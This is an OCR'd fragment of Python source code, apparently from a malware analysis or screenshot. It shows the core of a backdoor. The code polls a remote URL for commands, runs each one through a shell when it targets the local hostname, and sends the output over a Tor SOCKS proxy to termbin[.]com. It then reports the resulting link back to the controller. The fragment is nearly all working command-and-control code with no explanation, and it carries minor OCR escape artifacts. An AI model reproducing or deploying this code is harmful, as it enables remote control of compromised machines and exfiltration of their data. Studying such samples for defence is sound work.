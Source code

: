 ```python
    if not packet:  
      return None  
    data += packet  
  return data  
  
  
def get_cmd():  
    req = requests.get(cmd\_url\_order, headers=headers).content.decode().strip()  
    if req == '':  
        pass  
    else:  
        return req  
  
def run_cmd(cmd):  
    cmd_split = cmd.split('--')  
    if cmd_split\[1\] == hostname:  
        cmd = cmd_split\[2\]  
        print(cmd)  
        run = Popen(cmd, shell=True, stdin=PIPE, stdout=PIPE, stderr=STDOUT)#.decode()  
        out = run.stdout.read()  
        if not out:  
            out = b'ok'  
        termbin_cnx = socks.socksocket()  
        termbin\_cnx = socket.socket(socket.AF\_INET, socket.SOCK_STREAM)  
        socks.setdefaultproxy(socks.PROXY\_TYPE\_SOCKS5, '172.17.0.1', '9050', True)  
        termbin_cnx.connect(('termbin[.]com', 9999))  
        termbin_cnx.send(out)  
        recv = termbin_cnx.recv(100000)  
        termbin\_url\_created = recv.decode().rstrip('\\x00').strip()  
        print(termbin\_url\_created)  
        termbin\_header = {'Referer': hostname\_pattern+" -- "+termbin\_url\_created}  
        headers.update(termbin_header)  
        try:  
            push = requests.get(cmd\_url\_answer, headers=headers)  
            print('executed')  
            headers.update(referer)  
        except Exception as e:  
            print(e)  
            pass  
    else:  
        print('not for me')  
         
while True:  
    time.sleep(10)  
    try:  
        check\_cmd = get\_cmd()  
        if check\_cmd != check\_cmd_1:  
            time.sleep(20)  
            print(check_cmd)  
            run\_cmd(check\_cmd)  
            check\_cmd\_1 = check_cmd  
            pass  
    except Exception as e:  
        print(e)  
        pass

```

---
